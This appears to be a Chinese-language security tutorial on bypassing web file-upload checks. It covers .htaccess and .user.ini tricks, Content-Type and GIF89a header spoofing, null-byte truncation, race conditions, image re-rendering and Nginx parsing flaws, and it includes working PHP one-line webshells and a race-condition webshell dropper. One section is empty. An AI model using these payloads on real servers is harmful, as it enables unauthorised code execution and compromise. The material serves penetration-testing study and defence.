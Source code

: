 ```yaml
---
title: 文件上传
cover: 
icon: pen-to-square
date: 2025-02-16
category:
  - 网络安全
tag:
  - Web漏洞
  - Web安全
star: false
sticky: false
---
```

# 简述

Web 文件上传漏洞指的是 Web 应用程序在处理用户上传文件的过程中，由于对上传文件的类型、大小、内容等方面缺乏严格有效的验证和过滤，导致攻击者能够上传恶意文件到服务器上，并可能进一步执行这些文件，从而对服务器系统和数据造成损害。

## 目录

- 上传.user.ini / .htaccess 配置文件方式绕过验证
- 通过抓包更改文件类型绕过验证
- 通过更改文件头的方式绕过验证
- 黑名单白名单检测机制
- Zero-Zero截断
- 条件竞争
- 二次渲染
- 函数缺陷
- Nginx解析漏洞

<!-- more -->

**.user.ini 是用户自定义的php全局配置文件。**

**.htaccess 是Apache的配置文件（只能在Apache服务器起作用。）**

### .htaccess
> .htaccess文件提供了针对每个目录改变配置的方法，即在一个特定的目录中放置一个包含指令的文件，其中的指令作用于此目录及其所有子目录。 在绕过文件上传的限制中，在Apache全局配置文件中httpd.conf有这样一条配置: AddType application/x-httpd-php .php .phtml .php5 .pht .phps **`.jpg`**

### .user.ini
> 将上传服务器.user.ini写入
> `auto_prepend_file=Demo.png`
> 在包含的文件Demo.png中写入一句话木马即可。

# （二）通过抓包更改文件类型绕过验证

抓包找到Content-Type将类型改成图片类型：image/gif

```http
Content-Type:image/gif
```

# （三）通过更改文件头的方式绕过验证

使用编辑器将一句话木马代码开头加上任意图片类型头文件，例如：`GIF89a`
```php
GIF89a
<?php eval($_POST['a']);?>
```
**与此同时也要通过bp抓包更改Content-Type文件类型。**

# （四）黑名单白名单检测机制

### 黑名单

检查机制可能出现以下漏洞：

>1. *对后缀名的过滤只检测一次*
>2. *未区分大小写进行过滤*
>3. *黑名单中存在文件类型检测不严格*

### 白名单

。。。

# （五）Zero-Zero截断

**条件：PHP版本小于5.3.4 && magic_quotes_gpc = OFF**

使用bp抓包，在POST后面的文件路径中，将文件后缀修改为`.php%00` 
（目前几乎很少见到这个php版本了）

**如果路径不在POST后面而在下方某处，需要将%00进行URL解码，才能正常上传。**

# （六）条件竞争

**逻辑缺陷 --> 先上传 后判断 再逻辑处理**

```php
<?php fputs(fopen('xiao.php','w'),'<?php eval($_REQUEST[1]);?>');?>
```
用bp不断地上传这个文件，浏览器这边不停地按刷新，直到写入代码执行。

# （七）二次渲染

**条件：文件上传漏洞 && 文件包含漏洞**

将正常图片上传，上传后下载服务器方向你展现的图片（路径信息和文件查看），原图与服务器方渲染后的图放入010十六进制编辑器里做比较，分析哪些内容是被压缩而改变的，哪些内容是不会发生改变的。将一句话木马植入不会发送改变的内容后面再进行上传。上传成功后利用文件包含漏洞显示敏感信息。`POST data：pass=phpinfo();`

```php
<?php @eval($_POST('pass'));?>
```

# （八）函数缺陷

```php
move_uploaded_file($temp_file, $image_path)
```
**条件：使用后端代码中出现上述函数&&文件的命名由你自定义。**

上传后缀为JPG的文件，文件内容是一句话木马。如果旁边有文本框让你自定义文件名即可利用此漏洞。

可以命名为`1.php/.` 即可绕过限制。
（实际中，几乎没有这种让你自定义文件名的文本框功能）

# （九）Nginx解析漏洞

**版本信息：**
>- Nginx 1.x 最新版
>- PHP 7.x最新版

*由此可知，该漏洞与Nginx和PHP版本无关，属于用户配置不当造成的解析漏洞。*

**利用解析漏洞绕过PHP后缀检测：**

首先上传一个正常的图片文件利用bp抓包Request窗口调至Raw处在文件内容后面添加恶意的php代码。

![1](/assets/images/2025-02-16/t1.png)

Response窗口获得存放路径，直接在浏览上访问，并在图片路径后面添加任意的带php后缀的文件名，即可完成访问。

![2](/assets/images/2025-02-16/t2.png)


